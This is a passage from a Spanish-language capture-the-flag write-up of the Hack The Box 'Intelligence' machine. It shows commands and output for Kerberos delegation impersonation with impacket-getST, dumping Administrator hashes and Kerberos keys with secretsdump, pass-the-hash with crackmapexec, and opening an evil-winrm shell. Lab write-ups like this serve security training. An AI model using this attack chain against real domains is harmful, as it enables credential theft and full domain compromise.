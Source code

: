 - Importante: tenemos que sincronizar nuestro tiempo con el tiempo del host objetivo ejecutando *"sudo ntpdate -s intelligence.htb"*. 
Una vez que hemos sincronizado nuestro tiempo, podemos ejecutar el comando para generar un TGT

        ❯ impacket-getST -spn WWW/dc.intelligence.htb -dc-ip 10.10.10.248 -hashes :9ee6005cc12d8337df1dc46d481ec7ce -impersonate Administrator intelligence.htb/svc_int
          Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

          [-] CCache file is not found. Skipping...
          [*] Getting TGT for user
          [*] Impersonating Administrator
          [*]     Requesting S4U2self
          [*]     Requesting S4U2Proxy
          [*] Saving ticket in Administrator.ccache

Ahora que hemos obtenido el ticket de servicio Administrator.ccache, necesitamos tenerlo accesible para poder obtener acceso como administrador. 
En este caso, lo estableceremos como la variable de entorno KRB5CCNAME en nuestro sistema para luego usarlo para acceder a la máquina víctima como Administrador.

     ❯ export KRB5CCNAME=Administrator.ccache

y con secretsdump dumpearnos el hash NT del usuario Administrator para realizar un Pass The Hash 
                                                                                                                                                                                                               
     ❯ impacket-secretsdump -k -no-pass dc.intelligence.htb -just-dc-user Administrator
       Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

     [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
     [*] Using the DRSUAPI method to get NTDS.DIT secrets
     Administrator:500:aad3b435b51404eeaad3b435b51404ee:9075113fe16cf74f7c0f9b27e882dad3:::
     [*] Kerberos keys grabbed
     Administrator:aes256-cts-hmac-sha1-96:75dcc603f2d2f7ab8bbd4c12c0c54ec804c7535f0f20e6129acc03ae544976d6
     Administrator:aes128-cts-hmac-sha1-96:9091f2d145cb1a2ea31b4aca287c16b0
     Administrator:des-cbc-md5:2362bc3191f23732
     [*] Cleaning up...


     ❯ crackmapexec winrm 10.10.10.248 -u 'Administrator' -H '9075113fe16cf74f7c0f9b27e882dad3'
     SMB         10.10.10.248    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:intelligence.htb)
     HTTP        10.10.10.248    5985   DC               [*] http://10.10.10.248:5985/wsman
     WINRM       10.10.10.248    5985   DC               [+] intelligence.htb\Administrator:9075113fe16cf74f7c0f9b27e882dad3 (Pwn3d!)


## [](header-2)Shell Administrator 

     evil-winrm -i 10.10.10.248 -u 'Administrator' -H '9075113fe16cf74f7c0f9b27e882dad3'

     Evil-WinRM shell v3.4
     Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
     Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
     Info: Establishing connection to remote endpoint
